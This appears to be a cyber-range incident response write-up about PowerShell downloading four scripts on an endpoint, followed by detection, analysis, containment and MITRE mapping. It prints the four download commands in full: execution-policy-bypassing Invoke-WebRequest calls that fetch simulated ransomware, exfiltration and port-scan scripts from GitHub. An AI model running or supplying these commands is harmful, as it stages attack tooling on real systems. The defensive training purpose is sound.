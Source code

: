 # Incident Response: Suspicious PowerShell Web Requests

## 🕵️ Detection and Analysis

An incident titled **“kelsier - PowerShell Suspicious Web Request”** was triggered in Microsoft Defender for Endpoint (MDE).  

Upon investigation, the following suspicious PowerShell commands were identified on device **6th-c9300**. The commands executed downloads of four separate scripts from a public GitHub repository:


![PowerShell Suspicious Web Request Investigation](../images/powershell-suspicious-web-request-1.png)




```powershell
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/portscan.ps1 -OutFile C:\programdata\portscan.ps1

powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt.ps1 -OutFile C:\programdata\pwncrypt.ps1

powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/eicar.ps1 -OutFile C:\programdata\eicar.ps1

powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/exfiltratedata.ps1 -OutFile C:\programdata\exfiltratedata.ps1
```



The affected user stated they attempted to install free software around the same time. They observed a black screen for a few seconds, after which “nothing happened.”

**Confirmation of Execution**

Using DeviceProcessEvents in MDE, the investigation confirmed that these downloaded scripts were indeed executed:

```kql
let TargetHostname = "6th-c9300";
let ScriptNames = dynamic(["eicar.ps1", "exfiltratedata.ps1", "portscan.ps1", "pwncrypt.ps1"]);
DeviceProcessEvents
| where DeviceName == TargetHostname
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "-File" and ProcessCommandLine has_any (ScriptNames)
| order by TimeGenerated
| project TimeGenerated, AccountName, DeviceName, FileName, ProcessCommandLine
| summarize Count = count() by AccountName, DeviceName, FileName, ProcessCommandLine
```


![Sentinel Analytics Rule Setup](../images/powershell-suspicious-web-request-3.png)




![Process CommandLine Evidence](../images/powershell-suspicious-web-request-2.png)




**🧪 Malware Analysis Results**

The scripts were escalated to the malware reverse engineering team. Their findings were as follows:

**portscan.ps1** → Conducts an IP range scan for common ports, logging discovered services.

**eicar.ps1** → Generates the EICAR test string to validate AV detection.

**exfiltratedata.ps1** → Simulates data exfiltration by creating fake employee data, compressing it, and uploading to Azure Blob storage.

**pwncrypt.ps1** → Simulates ransomware by encrypting fake Desktop files and generating ransom instructions.




**🛡 Containment, Eradication, and Recovery**

**Containment**: Isolated the machine in Microsoft Defender for Endpoint.

**Eradication**: Ran a full anti-malware scan.

**Recovery**: Once clean, the machine was removed from isolation and returned to production.




**📘 Post-Incident Activities**

User was enrolled in additional cybersecurity awareness training.

The security team upgraded the corporate training package (KnowBe4) and increased training frequency.

Initiated a new policy restricting PowerShell access to essential personnel only, reducing attack surface for script-based threats.



**🔎 MITRE ATT&CK Mapping**

**T1059.001** – Command and Scripting Interpreter: PowerShell

**T1105** – Ingress Tool Transfer (downloading malicious scripts)

**T1560** – Archive Collected Data (simulated in exfiltration script)

**T1486** – Data Encrypted for Impact (simulated ransomware)

**T1046** – Network Service Scanning (port scanning activity)

